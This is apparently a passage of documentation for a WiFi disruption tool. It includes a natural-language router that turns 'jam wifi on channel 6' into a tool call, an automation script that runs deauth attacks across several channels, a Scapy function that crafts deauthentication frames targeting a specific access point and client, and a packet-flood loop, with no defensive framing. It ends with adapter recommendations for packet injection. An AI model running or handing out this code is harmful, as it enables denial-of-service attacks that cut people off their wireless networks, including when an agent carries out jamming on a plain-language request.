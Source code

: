 ### Natural Language Integration
```typescript
// Route natural language commands
const routing = routeNaturalLanguageQuery("jam wifi on channel 6");
// Returns: { suggestedTools: ['wifi_disrupt'], confidence: 0.9, ... }
```

### Custom Automation
```python
# Custom automation script
def automated_wifi_test():
    tool = WifiDisruptTool()
    
    # Test different channels
    for channel in [1, 6, 11]:
        result = tool.execute(
            interface='wlan0',
            mode='deauth',
            channel=channel,
            duration=10
        )
        print(f"Channel {channel}: {result['packets_sent']} packets sent")
```

## Advanced Configuration

### Custom Frame Crafting
```python
# Advanced frame customization
def custom_deauth_frame(target_bssid, client_mac, reason_code=7):
    return RadioTap() / Dot11(
        addr1=client_mac,        # Specific client
        addr2=target_bssid,      # AP BSSID
        addr3=target_bssid       # AP BSSID
    ) / Dot11Deauth(reason=reason_code)
```

### Rate Limiting
```python
# Custom rate limiting
def controlled_flood(interface, packets_per_second=100):
    for i in range(packets_per_second):
        sendp(packet, iface=interface, verbose=False)
        time.sleep(1.0 / packets_per_second)
```

## Performance Optimization

### Hardware Recommendations
- **Intel AX200/AX210**: Excellent monitor mode and injection support
- **Atheros AR9271**: Reliable USB adapter with good Linux support
- **Ralink RT3070**: Budget option with decent performance
